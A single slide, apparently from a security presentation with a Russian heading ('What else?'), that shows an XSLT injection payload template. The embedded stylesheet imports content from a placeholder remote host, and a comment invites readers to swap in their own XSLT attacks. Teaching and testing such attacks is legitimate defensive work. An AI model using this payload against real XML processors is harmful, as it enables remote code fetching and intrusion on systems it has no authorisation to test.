

# А еще?
<?xml-stylesheet type="text/xml" href="#mytest"?>
<xsl:stylesheet id="mytest" version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:fo="http://www.w3.org/1999/XSL/Format">
<!-- replace with your XSLT attacks -->
<xsl:import href="http://[ip]"/> <xsl:template match="id('boom')"> <fo:block font-weight="bold"><xsl:apply-templates/></fo:block> </xsl:template> </xsl:stylesheet>